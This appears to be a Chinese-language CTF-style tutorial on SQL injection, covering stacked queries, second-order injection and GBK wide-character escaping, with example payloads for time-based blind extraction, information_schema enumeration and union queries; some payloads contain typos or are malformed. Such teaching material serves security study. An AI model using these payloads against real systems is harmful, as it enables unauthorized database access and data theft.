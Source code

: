 ## 堆叠查询
堆叠查询就是指可以执行多条语句，多语句之间以分号隔开。即第一条语句是系统自己的语句，当系统执行完自己的sql语句的时候，就会执行第二条语句，而这条语句则是我们的注入语句。这样子数据库就执行了我们自己的sql语句。
如：

```sql
'; select if(substr(user,1,1)='r',sleep(5),1)%23
```


1. 利用堆叠注入获取数据

```sql
';select if(substr((select table_name from information_schema.tables where table_schma=database() limit 0,1),1,1)='e',sleep(5),1)%23
```


## 二次注入攻击
这个过程是比较复杂的，即整个注入过程是靠两次注入实现的。下面举几个例子。
1. 完整的select * from user语句分为两步分。第一步，注册的时候用户名写入select * from ，注册成功后。第二部分，查询用户的时候，用户名查询使用user 。这样子就会拼接成一条sql查询语句，从而实现在数据库内部实现sql查询。
2. 注册的时候，用户名填写test`,这样子在查询用户的时候。就会报错。爆出一个数据库错误。

所以二次注入攻击的完整过程是通过两次攻击一起整合到一次，从而绕过过滤。   
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/eujsh9cqaqa.png" width="400px" />

## 宽字符注入
>针对的情况是，数据库编码方式是GBK。这样子%df+转义符等价于%df%5c.而这个是一个繁体字。

例题[宽字符注入](http://www.wujiashuai.com/column/ctfsqlzhuru/50)  

例子：如果服务器后台对输入的字符进行转义，比如：'会被转义成\\’，那么如何获取到数据库中对应的字段名？


1. 首先使用宽字符逃逸单引号包围  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/duzv2fr0fds.png" width="600px" />

2. 使用order by查询当前使用的数据表的字段个数  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/jmhx9xzedb.png" width="600px" />

3. 使用union确定哪个字段是可以注入的  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/opbup71a1p.png" width="600px" />

4. 使用database()，获取到当前的数据库名称

```sql
union 1,(select database()),3
```


5. 使用database()，获取到当前的数据库名称
使用

```sql
select table_name from information_schema.tables where table_schema=(select database()) limit 0,1
```
